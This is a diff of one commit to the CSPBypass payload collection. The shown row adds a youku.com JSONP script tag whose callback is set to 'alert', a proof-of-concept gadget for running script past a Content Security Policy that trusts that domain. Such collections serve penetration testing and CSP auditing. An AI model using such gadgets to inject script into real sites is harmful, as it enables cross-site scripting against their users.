

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown; the shorter side is filled out with more unchanged rows; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Update data.tsv
Added skype, twitter, client1.google.com, youku, indeed, and disqus JSONP endpoints

```diff
--- a/data.tsv
+++ b/data.tsv
+row 7: acs.youku.com <script src="https://acs.youku.com/h5/mtop.youku.playlog.open.get/1.0/?jsv=2.6.1&appKey=24679788&t=1734359327631&sign=6b8f8b6abb27c68582606eed336c887d&api=mtop.youku.playlog.open.get&v=1.0&dataType=jsonp&jsonpIncPrefix=headerRecord1734359327618&type=jsonp&callback=alert&data={%22nlid%22%3A%22XlQcF5xQrCcCAWoLKdGqIOhS%22%2C%22uid%22%3A%22%22%2C%22pageLength%22%3A100%2C%22timestamp%22%3A%221734359327617%22%2C%22appKey%22%3A%22qPbb2hfIYugHjMaj%22%2C%22appName%22%3A%22pc%22%2C%22hwClass%22%3A1%2C%22deviceName%22%3A%22web%22%2C%22isPlayController%22%3A1%2C%22ccode%22%3A%220502%22%2C%22clientDrmAbility%22%3A3}"></script>
```
Also changed, not shown: 5 added rows elsewhere in this file.
